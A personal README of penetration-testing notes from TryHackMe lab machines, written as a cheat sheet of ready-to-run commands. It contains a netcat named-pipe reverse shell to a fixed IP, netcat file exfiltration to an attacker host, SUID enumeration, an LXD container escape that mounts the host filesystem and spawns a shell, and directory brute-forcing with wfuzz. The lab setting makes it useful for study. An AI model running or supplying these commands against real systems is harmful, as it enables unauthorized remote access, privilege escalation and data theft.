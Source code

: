 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe platform. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

## Tricks
Here are some handy tricks to enhance your pentesting workflow:

---
#### Spawn a fully interactive shell:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---
#### Reverse shell using Netcat:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```

---
#### Set appropriate permissions for `id_rsa` file before usage:
```
chmod 600 id_rsa
```

---
#### File Transfer on Netcat

1. To download a file on the remote shell:
```
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```
nc -l ATTACKER_PORT > [output_file_path]
```

---
#### Web
Discover hidden directories using `wfuzz`:
```
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.47.7/island/2100/FUZZ.ticket
```
---
####  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)

---------------------------------
## Additional Notes
Here are some additional notes that might come in handy during your penetration testing journey:

---

#### Read a raw file using `xxd`:
```
xxd -r file.raw > output.txt
```
---
#### terminal hack
`l\s`: Equivalent to `ls`

---
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```
---
#### Decompress a gzip file:
```
gzip -d file.gz
```

---
#### Privilege Escalation:
Identify SUID/SGID files:
```
find / -type f -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```
LXD container exploitation:
```
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Happy hacking!
